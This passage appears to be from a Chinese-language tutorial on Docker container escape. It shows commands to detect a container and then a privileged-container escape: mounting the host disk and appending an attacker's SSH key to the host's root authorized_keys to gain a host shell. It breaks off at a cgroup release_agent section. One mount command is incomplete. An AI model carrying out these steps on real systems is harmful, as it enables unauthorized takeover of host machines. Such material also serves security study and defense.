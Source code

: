 ### debugfs
debugfs是一个简单易用基于RAM的文件系统，主要是为了方便内核开发人员进行调试，可以让内核开发人员简单的将信息提供给用户空间，debugfs比较偏底层，常用于恢复文件。  
## 0x02 判断容器环境
```bash
cat /proc/1/mountinfo | grep docker
ls -al .dockerenv
mount | grep docker
....
```


## 0x03 特权容器逃逸
什么是特权容器
```
The --privileged flag gives all capabilities to the container, 
and it also lifts all the limitations enforced by the device cgroup controller.
In other words, the container can then do almost everything that the host can do. This flag exists to allow special use-cases, 
like running Docker within Docker.
```

### 挂载设备逃逸
首先我们创建一个特权容器，这里选用ubuntu  
```bash
sudo docker run -it --privileged --name=test1 ubuntu /bin/bash
```
在特权容器下，我们的权限比较大，可以将宿主机的设备挂载到容器中，这样便可以操作宿主机的任意文件，进行逃逸。  
查看宿主机的分区情况:
```bash
fdisk -l
```
显示出的信息如下  
```
Disk /dev/xxx: 10.11 GiB, 1000000000 bytes, 1000000 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
```
知道了分区情况之后，就容易多了，我们创建一个目录，将/dev/xxx挂载到test/目录中，这时候我们操作test目录也就是操作宿主机的根目录：  
```bash
mkdir test && mount /dev/xxx
```
将一台攻击机的ssh key下载到容器内，写到/root/.ssh/下:  
```bash
cd /test/root/.ssh
cp authorized_keys authorized_keys1 #复制原有的ssh key
cat /id_rsa.pub >> ./authorized_keys
```
此时我们用攻击机去连接，便可以获取到宿主机的shell，当然这种写ssh key的方法并不推荐，很容易被检测到。

### cgroup release_agent 逃逸
百度百科中关于cgroup的解释:
>cgroup是Linux内核的一个机制，用来限制、控制与分离一个进程组的资源（如CPU、内存、磁盘输入输出等）。
